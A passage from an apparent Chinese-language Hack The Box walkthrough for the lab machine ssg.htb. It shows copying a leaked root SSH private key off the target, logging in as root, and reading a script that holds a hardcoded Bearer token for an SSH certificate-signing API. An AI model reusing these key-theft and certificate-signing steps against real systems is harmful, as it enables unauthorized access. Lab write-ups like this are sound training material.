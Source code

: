         
  
**kali中：**  
```
scp msainristil@ssg.htb:/home/msainristil/decommission_old_ca/dockerroot* .
ssh -i dockerroot root@ssg.htb
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yKTOKd3ibs9ichfplmKEJNch7DHYwuBnKtYZBde2nwVtEqU4hRg1ZO6Pv3Snheib1xTHkOdqwXeXN7rhibbcVHtgrw/640?wx_fmt=png "")  
  
                 
  
**0005.获取主机的support用户权限**  
  
在**zzinter**用户找到发现**user.txt**。  
  
其中还有**sign_key_api.sh**文件，打开后代码如下  
```
#!/bin/bash

usage () {
    echo "Usage: $0"
    exit 1
}

if [ "$#" -ne 3 ]; then
    usage
fi

public_key_file="$1"
username="$2"
principal_str="$3"

supported_principals="webserver,analytics,support,security
IFS=',' read -ra principal <<< "$principal_str"
for word in "${principal[@]}"; do
    if ! echo "$supported_principals" | grep -qw "$word"; then    
        echo "Error: '$word' is not a supported principal."
        echo "Choose from:"
        echo "    webserver - external web servers - webadmin user"
        echo "    analytics - analytics team databases - analytics user"
        echo "    support - IT support server - support user"
        echo "    security - SOC servers - support user"
        echo
        usage
    fi
done

if [ ! -f "$public_key_file" ]; then
    echo "Error: Public key file '$public_key_file' not found."
    usage
fi

public_key=$(cat $public_key_file)

curl -s signserv.ssg.htb/v1/sign -d '{"pubkey": "'"$public_key"'", "username": "'"$username"'", "principals": "'"$principal"'"}' -H "Content-Type: application/json" -H "Authorization:Bearer 7Tqx6owMLtnt6oeR2ORbWmOPk30z4ZH901kH6UUT6vNziNqGrYgmSve5jCmnPJDE"
```  
  